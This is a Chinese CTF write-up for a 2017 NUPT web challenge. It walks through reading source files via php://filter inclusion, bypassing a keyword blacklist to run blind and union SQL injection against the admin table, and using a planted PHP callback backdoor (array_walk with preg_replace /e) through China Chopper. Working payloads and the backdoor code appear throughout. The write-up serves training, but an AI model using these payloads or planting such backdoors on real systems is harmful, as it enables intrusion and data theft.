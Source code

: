 ```yaml
---
title: 南邮CTF平台综合题2writeup
tags: [sqli , ctf ]
date: 2017-10-04 21:04:34
categories: writeup
keywords: 南邮,综合题,ctf,writeup,findneo
description: 通过SQL注入得到后台登陆密码，连接管理员自用的回调后门。
---
```


> 非xss题 但是欢迎留言~
> 地址：[get the flag](http://cms.nuptzj.cn/)

## 读取源码

在页面底部发现一个这样的链接：*http://cms.nuptzj.cn/about.php?file=sm.txt* ，说明题目提供了读取文件功能，如果使用 *[file://协议](http://php.net/manual/en/wrappers.file.php)* 读取，HTML预留字符会以字符实体显示，看起来不方便，所以也可以编码读取后再本地解码。

```php
http://cms.nuptzj.cn/about.php?file=php://filter/convert.base64-encode/resource=filename
在拿到的文件里搜索 ".php" ，顺藤摸瓜，能找到并读取到的文件有：
  sm.txt
  about.php
  index.php
  passencode.php
  say.php
  antixss.php
  so.php
  preview.php
  antiinject.php
  -----------------------------
  知道有 loginxlcteam目录或文件 和 config.php 但还读不到 ；还不知道有list.php ,xlcteam.php
```

### 关于*file://协议*

 *file://协议* ([RFC8089](https://tools.ietf.org/html/rfc8089) )是用来访问本地文件系统的，因为文件系统 是 PHP 使用的默认封装协议，因此在fopen()、 copy()、 file_exists() 、 file_get_contents()和 filesize() 等文件系统函数中是支持的。

在谷歌/火狐浏览器的URL框里输入  *file:///D:/*  或者在Linux命令行里敲 *lynx file:///* 都可以看到效果。

[PHP文档](http://php.net/manual/en/wrappers.file.php#refsect1-wrappers.file-usage) 提供的用法如下：

> - /path/to/file.ext
> - relative/path/to/file.ext
> - fileInCwd.ext
> - C:/path/to/winfile.ext
> - C:\path\to\winfile.ext
> - \\smbserver\share\path\to\winfile.ext
> - file:///path/to/file.ext

### 关于PHP的过滤器(*php://filter*)

 [php://filter](http://php.net/manual/en/wrappers.php.php#wrappers.php.filter) 和 [可用的过滤器列表](http://php.net/manual/en/filters.php)。主要用在数据流内容读取之前做些筛选过滤，可指定过滤器应用在读模式还是写模式，不指定则两者都应用，也可复合使用多个过滤器，使用管道符隔开即可。

对于CTFer典型的用法像是这样：

> php://filter/read= < filter list to apply to read chain >/resource= < stream to be filtered >
>
> php://filter/read=string.toupper|string.rot13/resource=https://findneo.github.io/
>
> php://filter/convert.base64-encode/resource=filename

常用过滤器列表：

* String Filters
  * string.rot13
  * string.toupper
  * string.tolower
  * string.strip_tags
* Conversion Filters
  * convert.base64-encode & convert.base64-decode
  * convert.quoted-printable-encode & convert.quoted-printable-decode
* Compression Filters
* Encryption Filters

## 注入

全局搜索 *mysql_query* ，发现 *say.php,so.php,index.php* 都存在数据库操作。选择 *so.php* 下手。

```php
/*so.php*/
<?php
if($_SERVER['HTTP_USER_AGENT']!="Xlcteam Browser"){
echo '万恶滴黑阔，本功能只有用本公司开发的浏览器才可以用喔~';
    exit();
}
$id=$_POST['soid'];
include 'config.php';
include 'antiinject.php';
include 'antixss.php';
$id=antiinject($id);
$con = mysql_connect($db_address,$db_user,$db_pass) or die("不能连接到数据库！！".mysql_error());
mysql_select_db($db_name,$con);
$id=mysql_real_escape_string($id);
$result=mysql_query("SELECT * FROM `message` WHERE display=1 AND id=$id");
$rs=mysql_fetch_array($result);
echo htmlspecialchars($rs['nice']).':<br />&nbsp;&nbsp;&nbsp;&nbsp;'.antixss($rs['say']).'<br />';
mysql_free_result($result);
mysql_free_result($file);
mysql_close($con);
?>
---------------------------------------------------------------------------------------
/*antiinject.php*/
<?php
function antiinject($content){
$keyword=array("select","union","and","from",' ',"'",";",'"',"char","or","count","master","name","pass","admin","+","-","order","=");
$info=strtolower($content);
for($i=0;$i<=count($keyword);$i++){
 $info=str_replace($keyword[$i], '',$info);
}
return $info;
}
?>
```

 关注 3、11、14、15行。

1. burp抓包，修改 *User-Agent* 字段即可。

2.  *antiinject()* 过滤规则是按黑名单***依次***把关键字删除。

   1. 用黑名单里最后一个关键字 `=` 分隔即可绕过对多字符关键字的过滤。
   2. 用 `/**/` 代替空格符。
   3. 单字符关键字不太会弄，也许可以用各种编码绕过，不过我们暂时未必需要，有空格和这些多字符关键字，再加上不在黑名单里的 `<>/()` 已经可以开始搞事了。

3.  *mysql_real_escape_string()* 的功能是对`\x00, \n, \r, \, ', " , \x1a(撤销键,ctrl+z)` 加反斜杠转义，我们不用这些字符就是了。

4. 15行处将处理过的参数直接拼接到查询语句，因为查询结果有多列，又没有逗号可用，不好用内联注入，于是尝试基于逻辑的注入。数据库结构在 *sm.txt* 已经给出。

5.  ```sql
   我们想要在数据库执行的查询语句是这样：
   SELECT * FROM `message` WHERE display=1 AND id=1 and ascii(mid((select userpass from admin)from 1 for 1))>65

   因为没法用空格，所以实际上是这样：
   SELECT * FROM `message` WHERE display=1 AND id=   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   希望经过过滤的 id 值为：
   1/**/and/**/ascii(mid((select/**/userpass/**/from/**/admin)from/**/1/**/for/**/1))>65

   向 so.php post过去的参数应该是：
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/1/**/fo=r/**/1))>65

   使用burp爆破
   soid=1/**/an=d/**/ascii(mid((selec=t/**/userpas=s/**/fro=m/**/admi=n)fro=m/**/§1§/**/fo=r/**/1))>§65§
   使用 Cluster Bomb 模式，第一个payload 为 [1-40] ，第二个为 [31,32,47-57](经过几次尝试发现usepass字段只有[ \d] )
   得到[49,48,50,32,49,49,55,32,57,57,32,49,48,55,32,49,49,52,32,48,49,55,32,49,49,48,32,49,49,54,32,49,49,55]
   也就是[102 ,117 ,99 ,107 ,114 ,117 ,110 ,116 ,117]即funckruntu，访问loginxlcteam登陆即可

   进后台得知有管理员留的后门 xlcteam.php ，于是读一下这个文件
   ```

## 意外

看别人的writeup时惊喜的发现原来并没有过滤逗号，这意味着可以一次注出来管理员密码！所以深夜里我是有些激动的。

```
soid=1/**/an=d/**/0/**/unio=n/**/selec=t/**/null,usernam=e,userpas=s,null/**/fro=m/**/admi=n

//当然，在充分掌握数据库结构前需要一些尝试。
```

## 使用回调后门

回调后门似乎是 phithon 师傅最先这样称呼的，在 [*创造tips的秘籍——PHP回调后门* ](https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html)里做了具体介绍。

```php
//xlcteam.php
<?php
$e = $_REQUEST['www'];
$arr = array($_POST['wtf'] => '|.*|e',);
array_walk($arr, $e, '');
?>
  //使用菜刀连接即可。
  //url : http://cms.nuptzj.cn/xlcteam.php?www=preg_replace
  //密码:	wtf
```

菜刀连上后拿到所有文件，发现 config.php 里有数据库配置，于是就可以操作整个数据库了。

是的，中午吃的是美味的黄焖鸡 \o/



![](cmsnupt.png)

![](arlogined.png)